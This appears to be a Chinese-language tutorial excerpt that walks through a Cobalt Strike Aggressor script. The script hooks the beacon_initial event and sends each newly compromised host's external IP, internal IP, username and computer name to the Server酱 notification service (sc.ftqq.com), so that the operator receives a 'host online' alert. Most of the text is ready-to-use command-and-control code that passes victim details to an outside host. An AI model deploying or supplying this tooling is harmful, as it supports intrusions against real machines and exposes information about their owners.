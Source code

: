 ```shell
#上线事件的监听

on beacon_initial {
	...... # 代码
}

```

然后呢定义一个请求函数

```shell
    sub http_get {
        local('$output');
        $url = [new java.net.URL: $1]; # 实例化URL请求，$1为待输入的URl
        $stream = [$url openStream];
        $handle = [SleepUtils getIOHandle: $stream, $null];

        @content = readAll($handle);

        foreach $line (@content) {
            $output .= $line . "\r\n";
        }

        println($output);
    }
```



将刚上线的主机的 外网IP 内网IP 用户名 主机信息 提取出来，优化输出

```shell
    #获取ip、计算机名、登录账号
    $externalIP = replace(beacon_info($1, "external"), " ", "_");
    $internalIP = replace(beacon_info($1, "internal"), " ", "_");
    $userName = replace(beacon_info($1, "user"), " ", "_");
    $computerName = replace(beacon_info($1, "computer"), " ", "_");

```

最后格式化一下URL再请求

```shell
    $url = 'https://sc.ftqq.com/此处填写你Server酱的SCKEY码.send?text=CobaltStrike%e4%b8%8a%e7%ba%bf%e6%8f%90%e9%86%92&desp=%e4%bb%96%e6%9d%a5%e4%ba%86%e3%80%81%e4%bb%96%e6%9d%a5%e4%ba%86%ef%bc%8c%e4%bb%96%e8%84%9a%e8%b8%8f%e7%a5%a5%e4%ba%91%e8%b5%b0%e6%9d%a5%e4%ba%86%e3%80%82%0D%0A%0D%0A%e5%a4%96%e7%bd%91ip:'.$externalIP.'%0D%0A%0D%0A%e5%86%85%e7%bd%91ip:'.$internalIP.'%0D%0A%0D%0A%e7%94%a8%e6%88%b7%e5%90%8d:'.$userName.'%0D%0A%0D%0A%e8%ae%a1%e7%ae%97%e6%9c%ba%e5%90%8d:'.$computerName;

    http_get($url);
```



这样就完成了一个 Server酱 上线提示的操作


